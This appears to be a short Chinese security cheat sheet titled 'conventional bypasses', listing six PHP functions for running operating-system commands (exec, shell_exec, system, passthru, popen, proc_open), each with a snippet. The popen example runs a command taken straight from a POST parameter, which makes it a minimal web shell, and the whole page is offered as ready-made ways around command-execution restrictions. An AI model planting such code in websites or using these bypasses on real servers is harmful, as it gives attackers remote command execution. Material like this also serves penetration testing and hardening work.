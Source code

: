 ```yaml
---
title: "常规绕过"
id: zhfly3462
---
```


# ***常规绕过***

**1\. exec**

```
<?php
  echo exec('whoami');?> 
```

**2\. shell_exec**

```
<?php
  echo shell_exec('whoami');?> 
```

**3\. system**

```
<?php
  system('whoami');?> 
```

**4\. passthru**

```
<?php
  passthru("whoami");?> 
```

**5\. popen**

```
<?php
$command=$_POST['cmd'];
$handle = popen($command , "r");
  while(!feof($handle))
  {     echo fread($handle, 1024);  //fread($handle, 1024);
  }  
  pclose($handle);?> 
```

**6\. proc_open**

```
<?php
  $command="ipconfig";
  $descriptorspec = array(1 => array("pipe", "w"));
  $handle = proc_open($command ,$descriptorspec , $pipes);
  while(!feof($pipes[1]))
  {     echo fread($pipes[1], 1024); //fgets($pipes[1],1024);
  }?> 
```